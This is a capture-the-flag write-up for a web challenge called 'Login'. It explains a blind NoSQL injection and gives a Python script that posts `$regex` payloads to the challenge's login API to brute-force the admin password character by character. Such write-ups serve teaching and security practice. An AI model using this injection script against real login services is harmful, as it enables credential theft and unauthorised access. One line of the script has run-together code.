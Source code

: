 Login
=

Our admin belives his app is secure, please prove him wrong.

### Website: https://login.ctf.teamquark.com/

### Author: Apoorva Pendse and Gourav Suram

### Files: [web_login.zip](./web_login.zip)

Solution
=

Looking at the source code, we dont see any particular way to login, so I looked up on google on how to login in such kind of questions. The suddenly, `blind nosqli` popped up in my mind.

I then made a bold assumption stating that `admin` will be the username and the flag with be the password. And this is where all lights became bright and everything made sense.

I quickly set the username to admin and password to `{"$regex":"^<flag>"}` where we can bruteforce each character. I then made a script to do that:

```py
import requests
import urllib3
import string
import urllib

flag = list("")
url = "https://login.ctf.teamquark.com/api/login"
headers = {'content-type': 'application/json'}

while True:
    for c in string.printable:
        print (f"trying : {''.join(flag) + c}")                                                              if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "admin"}, "password": {"$regex": "^%s" }}' % (''.join(flag) + c)
            r = requests.post(url, data = payload, headers = headers, verify = False, allow_redirects = False)
            if 'Login Successful' in r.text:
                flag.append(c)
                break
```
